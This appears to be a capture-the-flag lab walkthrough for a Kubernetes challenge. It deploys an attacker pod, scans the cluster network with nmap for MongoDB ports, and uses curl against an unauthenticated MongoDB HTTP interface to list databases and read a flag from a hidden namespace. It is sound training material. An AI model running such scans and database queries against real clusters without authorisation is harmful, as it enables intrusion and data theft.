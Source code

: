 # K8S Security: Namespace Bypass

## Goal

There is a hidden namespace which has a running mongodb instance.  The goal is to find the instance and find the flag.

1. Install an attacker container.

```
kubectl apply -f pentest_tools.yaml
```

2. Log into the attacker container.

```
kubectl get pods
```
```
kubectl exec -it challenge23-attacker-8bd985cb5-lk6dt -- bash
```

3.  Once in the container, get its ip.  I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved. (!!)

```
ifconfig
```
4. Lets run a nmap scan.  We know from a previous challenge that mongodb is the database of choice. Lets look up its ports to find where mongo is.

```
nmap -p27017,28017 100.96.1.24/24
```

5. We see a host that has these ports open.  **What is port 28017?**

```
curl http://100.96.1.75:28017/listDatabases
```
```
curl http://100.96.1.75:28017/k8ctf/flag/
```

6. Exit

```
exit
```

7. Where is this mongodb running. This is the flag.

```
kubectl get namespaces
```
8. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2023-15)
🚨**DO NOT DELETE THE pentest tools deployment.**🚨
